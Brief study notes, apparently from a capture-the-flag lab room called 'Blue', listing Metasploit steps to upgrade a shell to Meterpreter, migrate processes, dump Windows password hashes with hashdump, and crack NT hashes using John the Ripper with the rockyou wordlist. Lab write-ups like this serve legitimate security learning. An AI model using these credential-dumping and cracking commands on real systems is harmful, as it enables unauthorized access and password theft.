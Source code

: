 # Blue room

Shell to Meterpreter Upgrade

~~~
sessions -u <session wishing to updgrade>
use post/multi/manage/shell_to_meterpreter
~~~

- Just because we are system doesn't mean our process is. Once we are upgraded we need to migrate to another process.

- hashdump passwords

~~~
hashdump (run in metasploit)
john -w=/usr/share/wordlists/rockyou.txt --format=NT <file with hashes> (For this room I needed to speicify the has type)
~~~

